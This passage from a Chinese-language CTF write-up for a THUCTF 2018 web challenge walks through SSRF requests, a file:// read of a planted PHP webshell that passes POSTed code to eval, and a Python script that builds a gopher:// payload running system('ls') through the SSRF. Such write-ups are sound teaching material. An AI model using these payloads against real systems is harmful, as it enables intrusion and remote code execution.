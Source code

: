 然后我们 http 访问这个文件，如下。得到回显：You aren't admin!

```
http://babyweb.thuctf2018.game.redbud.info:8016/?url=http://127.0.0.1/webshe11111111.php
```

利用 file 协议读取这个后门：

```
http://babyweb.thuctf2018.game.redbud.info:8016/?url=file:///var/www/html/webshe11111111.php
```

查看页面源代码如下：

```php
<?php

$serverList = array(
    "127.0.0.1"
);
$ip = $_SERVER['REMOTE_ADDR'];
foreach ($serverList as $host) {
    if ($ip === $host) {
        if ((!empty($_POST['admin'])) and $_POST['admin'] === 'h1admin') {
            @eval($_POST['hacker']);
        } else {
            die("You aren't admin!");
        }
    } else {
        die('This is webshell');
    }
}
```

可见我们需要一个 HTTP POST 操作来操作这个后门，想到使用 **gopher 协议 **。这里使用一个别人的脚本生成 gopher 需要的字符串：

```python
exp='''\
POST /webshe11111111.php HTTP/1.1
Host:127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://localhost:63342/php/webshe11111111.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Cookie: Phpstorm-c2b818=be05b847-c935-441b-bdb7-465508c336b0
Connection: close
Upgrade-Insecure-Requests: 1

admin=h1admin&hacker=system('ls');
'''
import urllib
tmp = urllib.quote(exp)
new = tmp.replace("%0A","%0D%0A")
result = "_"+urllib.quote(new)
print result
```
